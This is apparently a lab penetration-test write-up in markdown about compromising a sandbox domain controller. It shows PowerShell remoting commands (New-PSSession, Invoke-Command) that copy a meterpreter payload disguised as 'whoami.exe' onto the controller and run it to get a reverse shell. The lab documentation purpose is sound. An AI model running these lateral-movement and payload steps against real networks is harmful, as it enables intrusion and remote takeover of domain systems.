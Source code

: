 # Sandboxdc (10.5.5.30)
***
> [!info] 
> By exploiting the vulnerabilities on **Cevapi**, we are able to impersonate a `sandbox.local` administrator and was able to run commands as that user.
> ![[sandboxdc-whoami.png]] 

## Enumeration
1. Using our access from **Cevapi**, we extracted the hostname of the domain controller - `SANDBOXDC`.
![[sandboxdc-nslookup.png]]
***
## Exploitation
1. With the hostname acquired, we launched powershell and used `New-PSSession` with the flag `-Computer SANDBOXDC` to start a new session on the domain controller, which will be saved in the `$dcsesh` object.
```
$dcsesh = New-PSSession -Computer SANDBOXDC
```
![[sandboxdc-session.png]]

2. We used the `Invoke-Command` cmdlet to run a command against the domain controller. We need to pass in the session with the `-Session` flag and the command we want to execute with the `-ScriptBlock` command.
```
Invoke-Command -Session $dcsesh -ScriptBlock {ipconfig}
```
![[sandboxdc-command.png]]

***
## Post-exploitation
> [!todo] 
> Now that we know we can execute commands against the **Domain Controller**, we will transfer and execute a meterpreter shell. 
> 
> We used the same payload (`whoami.exe`) when exploiting **Poultry** and **Cevapi**

1. We used the PowerShell command `Copy-Item` to transfer our payload from **Cevapi** to **Domain Controller (sandboxdc)**. 
```
Copy-Item "C:\Users\Public\exploit\whoami.exe" -Destination "C:\Users\Public\" -ToSession $dcsesh
```
> [!info] 
>  `C:\Users\Public\exploit\whoami.exe` - source (from **Cevapi**)
>  `C:\Users\Public\` - destination (to **sandboxdc**)
>  `$dcsesh` - the sandbox\\Administrator session we created earlier

2. With a meterpreter listener running on the background (`exploit -j`), we run our payload and got a meterpreter connection.
   
```
PS C:\Windows\system32> $dcsesh = New-PSSession -Computer SANDBOXDC
PS C:\Windows\system32> Invoke-Command -Session $dcsesh -ScriptBlock {C:\Users\Public\whoami.exe}
```

![[sandboxdc-meterpreter.png]]